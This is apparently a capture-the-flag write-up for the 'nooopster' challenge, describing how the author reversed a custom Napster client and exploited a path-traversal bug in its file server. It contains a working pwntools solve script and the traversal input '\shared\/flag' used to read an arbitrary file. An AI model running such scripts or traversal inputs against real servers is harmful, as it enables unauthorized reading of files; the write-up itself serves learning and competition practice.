


# nooopster

**Category**: Pwn, Rev \
**Points**: 115 (74 solves)

## Challenge

I don't remember the exact description, but it was something like "Let's share
files like it's 1999".

Attachments:
- `nooopster.vpn`
- `openvpn.shared.key`

## Overview

We're given an OpenVPN config and key:
```
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 9
```

Using OpenVPN 2 we can connect like so
```
openvpn --config nooopster.ovpn
```

Based on the OpenVPN config we know the server is up at `192.168.5.1`. Though
using automated scanners are against the CTF rules, I didn't know what else to
do so I just ran nmap on it:
```
PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

After wasting an hour trying to figure out how to connect, I eventually asked
the challenge author what the intended service was. Turns out it's
[Napster](https://en.wikipedia.org/wiki/Napster) (haha because the challenge is
called nooopster, duh), which is some music sharing service popular in 1999.

Luckily Ubuntu 16.04 still has a Napster client in the official repos:
```dockerfile
FROM ubuntu:16.04
RUN apt-get update && apt-get install nap
CMD /bin/bash
```

Then we can connect like so:
```
nap -s 192.168.5.1:8888
/join #chat
```



Ok, let's check out his files
```
/browse nooopster
```



We see about 200 MP3 files (all of them are Rickrolls) and one file called
`nooopster`, which is an ELF binary.

After opening it in Ghidra, we can see that it's a custom Napster client that
the `nooopster` bot is presumably using. Our goal is to pwn the client.

## Solution

The `nooopster` client has all mitigations enabled so getting RCE probably
isn't the intended solution since the challenge is categorized as "easy". Since
the client has some file sharing functionality, the goal is probably to get
arbitrary file read.

Here's what I found after reversing it in Ghidra:
- It connects to port 8888 of the IP supplied in `argv[1]`
- It checks if the nickname `nooopster` has been taken on the server
- If not, it does `pthread_create` to host a file server on port 7070 in the
  background
- It lists the files in `./shared` and sends the filenames to the Napster server
- Then it polls the Napster connection with a timeout of 10 seconds,
  repeating the same four messages over and over again
- It also checks for download requests and responds appropriately according to
  the [Napster spec](http://opennap.sourceforge.net/napster.txt)

There were only two places where files were read:
1. The file server running on port 7070
2. A weird `fopen` call in `main`. After playing around for a while, it seemed
   like the `fopen` was unreachable, so I don't know what it was even there for.

Since I suck at static analysis, I switched to GDB after I realized that if I
changed the nickname the client used, I could run it without any issues.

Turns out the bug was in this `parse_filepath()` function (the binary was
stripped so this is just the name I gave to the function). The filepath needs
to start with `\shared\blah` and `parse_filepath()` just returns `blah`.
However it doesn't check for any funny business so we can just do
`\shared\/flag` and it will return `/flag`.

Here's a short clip showing how this `parse_filepath()` function can be found
in Ghidra: [ghidra.mp4](ghidra.mp4)

Solve script:
```python
import pwn
import time
from enum import IntEnum


def send(msg: bytes, type: int):
    p = pwn.p16(len(msg)) + pwn.p16(type) + msg
    io.send(p)
    res = io.clean(timeout=0.5)
    print(f"[*] Response: {res}")


class Type(IntEnum):
    LOGIN = 2
    JOIN_CHANNEL = 0x190
    PUBLIC_MSG = 0x192
    DOWNLOAD_REQUEST = 0xCB


# We need to request a download before the file server on port 7070 will let us
# download anything
io = pwn.remote("192.168.5.1", 8888)
send(b'qxxxb wmtidxal 0 "nap v1.5.4" 4', Type.LOGIN)
send(b"#chat", Type.JOIN_CHANNEL)
send(b"#chat hello", Type.PUBLIC_MSG)
send(r'nooopster "\shared\nooopster"'.encode(), Type.DOWNLOAD_REQUEST)

io = pwn.remote("192.168.5.1", 7070)
io.send(r'GETqxxxb "\shared\/flag" 0')
io.interactive()
```

Output:
```
$ python3 solve.py
[+] Opening connection to 192.168.5.1 on port 8888: Done
[*] Response: b'\x0b\x00\x03\x00anon@(none)\x14\x00m\x02VERSION opennap 0.44\r\x00m\x02SERVER (none)-\x00m\x02There have been 2 connections to this server.\x07\x00\xd6\x001 202 0'
[*] Response: b'\x05\x00\x95\x01#chat\x0f\x00\x98\x01#chat qxxxb 0 4\x15\x00\x98\x01#chat nooopster 202 0\x05\x00\x99\x01#chat#\x00\x9a\x01#chat Welcome to the #chat channel.'
[*] Response: b'\x11\x00\x93\x01#chat qxxxb hello'
[*] Response: b'N\x00\xcc\x00nooopster 17148096 7070 "\\shared\\nooopster" 00000000000000000000000000000000 0'
[+] Opening connection to 192.168.5.1 on port 7070: Done
[*] Switching to interactive mode
123OOO{M4573R_0F_PUPP375}
```

## Timeline

- `Saturday 03:00 PM - 04:00 PM`
  - Start challenge
  - Waste time with different OpenVPN versions to get the VPN work
  - Finally realize OpenVPN 2 from the Ubuntu repos works just fine
- `Saturday 04:00 PM - 05:00 PM`
  - Scan ports on server, find 7070 and 8888 and 8889
  - Try MLDonkey on port 7070 because that's what nmap tells me it is
  - Give up and ask challenge author what service it is. Turns out it's Napster
    on port 8888
  - Get `nap` client from Ubuntu 16.04 repos and connect
  - Find about 200 songs (all Rickrolls) and one binary called `nooopster`
- `Saturday 05:00 PM - 08:45 PM`
  - Start reversing `nooopster` in Ghidra, not really understanding what was
    going on
  - Use WireShark on `nap` client. Manage to figure out some basics of the protocol
  - Realize that goal is probably to achieve arbitrary file read
  - Find two places where that's possible
- `Saturday 08:45 PM - 09:45 PM`
  - Dinner + break
- `Saturday 09:45 PM - 11:59 PM`
  - Find the client-server protocol [spec](http://opennap.sourceforge.net/napster.txt)
  - Finally am able to understand Ghidra's disassembly thanks to that
- `Sunday 12:00 AM - 02:00 AM`
  - Figure out that if I change the username used by the `nooopster` binary, I
    can run it and connect it to the server
  - Dynamic reversing in GDB
- `Sunday 02:00 AM`
  - Find bug on the file server on port 7070
  - Get the flag
